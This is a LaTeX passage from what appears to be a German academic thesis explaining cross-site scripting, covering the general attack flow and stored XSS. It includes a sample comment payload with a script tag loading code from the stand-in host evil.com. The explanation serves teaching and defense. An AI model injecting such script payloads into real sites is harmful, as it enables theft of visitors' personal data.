 Der Ablauf um einen solchen Code in eine Anwendung injezieren zu können ist stets gleich, so \textcite{mahmoud2017}.
\begin{enumerate}
	\item Der Angreifer muss eine Schwachstelle in der Anwendung finden um seinen schadhaften Code in die Anwendung zu bringen und somit in weiterem Verlauf sensible Daten von seinem Opfer stehlen zu können.
	\item Das Opfer besucht die beschädigte Anwendung.
	\item Die Anwendung sendet eine Anfrage mit dem fehlerhaften Code im Body an einen Server.
	\item Wenn das Skript im Web-Browser des Opfers ausgeführt wird, kann der Angreifer diverse persönliche Informationen stehlen.
\end{enumerate}

\begin{figure}[ht]
	\centering
	\includegraphics[width=0.8\linewidth]{images/XSS-attack-process.png}
	\caption{XSS Angriffsprozess\autocite[p]{mahmoud2017}}
\end{figure}




\subsection{Stored oder Persistent Attacken}
\label{subsection:stored attacks}

Um eine stored XSS Attacke, oder auch persistente bzw. dauerhafte XSS Attacke erfolgreich ausführen zu können, muss der Täter Bob zuerst eine Schwachstelle in einer Web-Anwendung finden, um dort seinen schadhaften JavaScript Code auf den Server laden zu können.
Um solche Schwachstellen zu finden, probiert Bob HTML tags wie beispielsweise \verb+<h1>Hello World!</h1>+ in etlichen Eingabefeldern wie Kommentar-, oder Suchfeldern aus. Wird dieser tag vom Web-Browser als HTML tag interpretiert, weiß Bob, dass er auf dieser Seite sein Skript platzieren kann.
Hierzu fügt er anstatt eines h1 tags, einen script tag in das Kommentarfeld ein.
\begin{lstlisting}[
	label={},
	float=h,
	language=html,
	xleftmargin=0.5em,
	framexleftmargin=0.5em,
	tabsize=2,
	numbers=none
]
Best Product, read review here
<script src="http://evil.com/evil.js"> </script>
\end{lstlisting}

